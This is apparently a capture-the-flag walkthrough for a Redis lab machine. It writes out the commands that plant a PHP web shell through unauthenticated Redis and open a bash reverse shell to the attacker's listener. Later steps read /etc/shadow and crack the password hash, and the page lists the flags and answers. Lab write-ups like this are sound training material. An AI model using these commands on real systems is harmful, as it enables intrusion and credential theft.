 ### Scan the machine, how many ports are open?
Use nmap to check all ports and gather service version information:
```BASH
sudo nmap -sV -p- $ip
```
![image](https://github.com/user-attachments/assets/ee3ea360-20fa-4383-bb47-ffd540e5ace7)

<pre>2</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What's is the database management system installed on the server?
<pre>redis</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What port is the database management system running on?
<pre>6379</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What's is the version of management system installed on the server?
<pre>6.0.7</pre>

<span style="line-height:0.5;">&nbsp;</span>

### Compromise the machine and locate user.txt
Connect to Redis:
```BASH
redis-cli -h 10.10.96.238 6379
```
![image-1](https://github.com/user-attachments/assets/5284fa55-238f-4bbd-b0aa-e36613d54b39)

Lua scripting is allowed, but it is sandboxed so you cannot run system commands directly.

<span style="line-height:0.5;">&nbsp;</span>

Open a netcat listener on your machine:
```BASH
nc -lvnp 4444
```

Use Redis to create a reverse shell file in the web directory:
```BASH
flushall
set x "<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/10.10.220.167/4444 0>&1\"'); ?>"
config set dir /var/www/html/
config set dbfilename shell.php
save
```

After running save, the reverse shell will be written as shell.php. Visiting it in a browser triggers a connection to your netcat listener.

![image-4](https://github.com/user-attachments/assets/cd15f00d-c19d-4250-83f9-b4f08b679584)  

Spawn a TTY shell:
```BASH
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Look for user flag by using grep:
```BASH
grep -r --include="user.txt" . /home 2>/dev/null
```
![image-7](https://github.com/user-attachments/assets/934584e1-449b-4696-a549-7d570cfc0adf)

<pre>thm{red1s_rce_w1thout_credent1als}</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is the local user account password?
Notice the local user is vianka. Look for SUID binaries to find possible privilege escalation paths:
```BASH
find / -perm -4000 -type f 2>/dev/null
```
![image-6](https://github.com/user-attachments/assets/c181acb3-c48c-413e-8a7f-19aa5eb93e66)

The binary /usr/bin/xxd is exploitable. Go to [GTFObins](https://gtfobins.github.io/#) and search for xxd. Use xxd to read `/etc/shadow`, where Linux stores password hashes:

```BASH
LFILE=/etc/shadow
sudo xxd "$LFILE" | xxd -r
```
![image-8](https://github.com/user-attachments/assets/2a35b346-ab7f-4504-b390-cd31a1546ee3)


Run [John the Ripper](https://github.com/openwall/john) to crack the hash:
```BASH
/usr/sbin/john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
![image-9](https://github.com/user-attachments/assets/43e5b941-f70d-4046-8160-314a0be1fe7f)

<pre>beautiful1</pre>

<span style="line-height:0.5;">&nbsp;</span>

### Escalate privileges and obtain root.txt
Switch to vianka and check sudo privileges:
```BASH
sudo -l
```
![image-10](https://github.com/user-attachments/assets/daa696a9-e1d4-4d01-9ec4-b224a70df280)

Shows that vianka has full sudo access without restriction.

Get root and read the root flag:
```BASH
sudo su -
cd /root
cat root.txt
```
![image-11](https://github.com/user-attachments/assets/9b3b64d6-79b8-46e6-9977-2f4b71bdb026)

<pre>thm{xxd_pr1v_escalat1on}</pre>

<span style="line-height:0.5;">&nbsp;</span>
